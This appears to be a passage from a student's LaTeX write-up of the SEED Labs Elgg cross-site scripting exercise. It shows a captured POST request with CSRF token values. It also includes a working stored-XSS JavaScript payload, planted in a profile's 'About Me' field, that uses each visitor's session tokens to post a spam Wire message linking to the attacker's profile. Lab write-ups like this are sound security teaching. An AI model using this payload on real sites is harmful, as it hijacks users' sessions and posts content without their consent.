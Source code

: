 \documentclass[12pt]{article}
\begin{document}
The request body has this content:

\begin{verbatim}
__elgg_token=un1KjOAjar7PKPaDSDuDfA&__elgg_ts=1707419569&body=Test Post
\end{verbatim}

    \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss4.png}
         \caption{POST Request for posing on the Wire}
         \label{fig:ss4}
     \end{figure}

This task is quite similar to the previous one, in fact the request body is way shorter. So, we place this script in the ``About Me'' section once again:

\begin{verbatim}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (guid == 59) return; // User ID of Samy

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}
\end{document}

